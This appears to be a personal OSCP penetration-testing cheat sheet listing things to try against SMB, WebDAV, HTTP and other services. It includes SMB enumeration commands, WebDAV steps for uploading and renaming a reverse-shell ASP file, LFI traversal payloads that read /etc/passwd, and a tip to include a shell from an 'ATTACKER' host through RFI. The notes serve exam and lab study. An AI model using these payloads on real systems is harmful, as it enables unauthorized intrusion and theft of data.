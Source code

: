 # OSCP Services and Things-To-Try

## Services

__SSH (22)__
* Fingerprint server/OS, SSH key
* Basic auth-bypass (user=Patrick pass=Patrick) => Privesc `$ sudo su` + `$ su root`

__HTTP (80|8080)__
* Curl for HTTP header

__Telnet (23)__
* Stuff

__SMTP (25)__
* Stuff

__SMB / NETBIOS / SMBD (135-139 - 445)__

SMB enumeration
```bash
$ nmblookup -A target
$ smbclient //MOUNT/share -I target -N
$ rpcclient -U "" target
$ enum4linux target
```

Exploits:
* [MS08-067] NetAPI module in Windows SMB
* [MS17_010] Eternal blue detection: `use auxiliary/scanner/smb/smb_ms17_010`

__SMBD / SAMBA (139)__
* SMBD/Sambda is a server to provide SMB service to clients
* Samba 2.2.x remote buffer overflow: https://www.exploit-db.com/exploits/7

__MSRPC (135)__
* Stuff

## Web

ColdFusion vulns
* https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers
* https://www.absolomb.com/2017-12-29-HackTheBox-Arctic-Writeup/
* ColdFusion LFI: http://hatriot.github.io/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/

WEBDAV vulns - using tools . 
https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_upload_asp  
http://carnal0wnage.attackresearch.com/2010/05/more-with-metasploit-and-webdav.html  
```bash
$ davtest -url 10.11..113                                 # test for webdav vulns
$ davtest -url http://10.11.1.13                          # upload file from local to remote dir (HTTP PUT)
          -uploadfile rshell.asp -uploadloc rshell.html
$ cadaver
dav:!> open 10.11.1.13                                    # open connection to URL
dav:!> move '/rshell.txt' to '/rshell.asp'                # move .txt -> .asp (now executable)
```

WEBDAV vulns - manual
```bash
$ curl -T '/path/to/local/file.txt' 'http://10.11.1.13/'                              # upload file to remote
$ curl -v -X MOVE -H 'Destination: http://10.11.1.13/[new]' 'http://10.11.1.13/[old]' # move .ext1 -> .ext2
```

Apache
* Log paths: https://wiki.apache.org/httpd/DistrosDefaultLayout

LFI / RFI
(LFI = HIGH CHANCE OF RFI, SO TRY TO INCLUDE HTTP://ATTACKER/RSHELL.PHP)
```
# Append NULL bytes (prevent .ext concat to the end by application)
http://example.com/index.php?page=../../../etc/passwd%00
http://example.com/index.php?page=../../../etc/passwd%en
http://example.com/index.php?page=../../../etc/passwd%00%en
```

PHP
* Check `phpinfo()`
* RFI: If reverse-shell doesn't work, include `<?php phpinfo();?>` to check for banned functions

## Privesc - LINUX

UDEV
* Guide: http://www.madirish.net/370
* Exploit Code: https://www.exploit-db.com/exploits/8478

## Privesc - WINDOWS

Accesschk.exe:
* http://www.fuzzysecurity.com/tutorials/16.html



## Reverse Shell Tips

Reverse shell cheatsheet: http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/

If reverse shell hangs / dies, try a different port.
* A firewall may be blocking / disconnecting you on the port.
* E.g. 443 doesn't work, try 80 or 8080 (see your Nmap results).

